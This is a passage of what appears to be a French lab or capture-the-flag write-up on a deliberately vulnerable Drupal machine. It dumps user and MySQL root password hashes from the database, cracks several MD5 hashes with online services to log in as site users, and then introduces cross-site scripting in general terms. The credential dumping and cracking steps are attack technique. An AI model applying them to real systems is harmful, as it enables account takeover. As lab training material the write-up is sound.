 ```console

mysql> select uid, name, pass, mail from drupal.users;
+-----+----------+----------------------------------+--------------------+
| uid | name     | pass                             | mail               |
+-----+----------+----------------------------------+--------------------+
|   0 |          |                                  |                    | 
|   1 | jennifer | e3f4150c722e6376d87cd4d43fef0bc5 | jennifer@localhost | 
|   2 | patrick  | 5f4dcc3b5aa765d61d8327deb882cf99 | patrick@localhost  | 
|   3 | andy     | b64406d23d480b88fe71755b96998a51 | andy@localhost     | 
|   4 | loren    | 6c470dd4a0901d53f7ed677828b23cfd | loren@localhost    | 
|   5 | amy      | e5f0f20b92f7022779015774e90ce917 | amy@localhost      | 
+-----+----------+----------------------------------+--------------------+
6 rows in set (0.00 sec)

mysql> select Host, User, Password from mysql.user;
+-----------------------+------+------------------+
| Host                  | User | Password         |
+-----------------------+------+------------------+
| localhost             | root | 769048ab7ad496c6 | 
| localhost.localdomain | root | 769048ab7ad496c6 | 
| %                     | root | 769048ab7ad496c6 | 
+-----------------------+------+------------------+
```

Les mots de passe stockés dans la table ```drupal.users``` permettent de se connecter sur ```/events/``` en tant que ```loren```, ```andy```, ```jennifer```, ```patrick``` ou encore ```amy```. Des sites Web tels que [CrackStation](https://crackstation.net/) ou [HashKiller](https://hashes.com/en/decrypt/hash) ne devraient en faire qu'une bouchée.

```console
https://crackstation.net/
e3f4150c722e6376d87cd4d43fef0bc5 Unknown : Not found.
5f4dcc3b5aa765d61d8327deb882cf99 MD5 : password
b64406d23d480b88fe71755b96998a51 Unknown : Not found.
6c470dd4a0901d53f7ed677828b23cfd MD5 : lorenpass
e5f0f20b92f7022779015774e90ce917 MD5 : temppass

https://www.hashkiller.co.uk/md5-decrypter.aspx
e3f4150c722e6376d87cd4d43fef0bc5 [Not found]
5f4dcc3b5aa765d61d8327deb882cf99 MD5 : password
b64406d23d480b88fe71755b96998a51 MD5 : newdrupalpass
6c470dd4a0901d53f7ed677828b23cfd MD5 : lorenpass
e5f0f20b92f7022779015774e90ce917 MD5 : temppass
```

### Bonus n°1 : Cross-Site Scripting sur plusieurs pages

Une _Cross-Site Scripting_, abrégée XSS, est l'une des failles de sécurité les plus répandues dans les applications Web. Elle peut être utilisée par un attaquant pour provoquer un comportement du site Web différent de celui désiré par le créateur de la page. Cette vulnérabilité est due à une validation incorrecte, côté serveur, des entrées provenant de l'utilisateur. Lors de l'accès à certaines pages du site Web, des paramètres HTTP (en-têtes, GET, POST) ou des éléments entrés par l'utilisateur sont réécrits directement dans la réponse du serveur, sans avoir été correctement validés, filtrés, nettoyés côté serveur. Un attaquant pourra alors injecter du code malveillant au lieu de données légitimes.
